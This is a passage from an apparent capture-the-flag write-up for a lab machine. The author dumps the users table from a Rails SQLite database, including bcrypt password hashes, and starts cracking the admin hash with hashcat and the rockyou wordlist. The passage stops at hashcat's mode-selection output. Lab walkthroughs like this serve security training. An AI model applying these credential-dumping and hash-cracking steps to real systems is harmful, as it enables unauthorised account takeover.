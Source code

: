 ### LimeSurvey Access

#### DB Enumeration

The `test.sqlite3` file has a table structure, but no data in it. `development.sqlite3` has data. I’ll connect:

```

oxdf@hacky$ sqlite3 development.sqlite3 
SQLite version 3.45.1 2024-01-30 16:01:20
Enter ".help" for usage hints.
sqlite> .tables
ar_internal_metadata  token_blacklists    
schema_migrations     users

```

The interesting table is `users`:

```

sqlite> .headers on
sqlite> select * from users;
id|email|password_digest|created_at|updated_at|fullname|username|is_admin
1|ralph@heal.htb|$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG|2024-09-27 07:49:31.614858|2024-09-27 07:49:31.614858|Administrator|ralph|1
2|0xdf@heal.htb|$2a$12$lD1YI0oRzsxBCPcrctIE7ey7qqxJXEFaua77bPS63PTzSJrrkL5ui|2025-05-13 19:59:46.522875|2025-05-13 19:59:46.522875|0xdf|0xdf|0

```

There are two users, one of which is me. The other is ralph, the user mentioned as admin on the LimeSurvey page.

#### Crack Hash

`hashcat` auto-discovery will find four possible hash types:

```

$ hashcat ralph.hash /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt 
hashcat (v6.2.6) starting in autodetect mode
...[snip]...
The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce

Please specify the hash-mode with -m [hash-mode].
...[snip]...

```
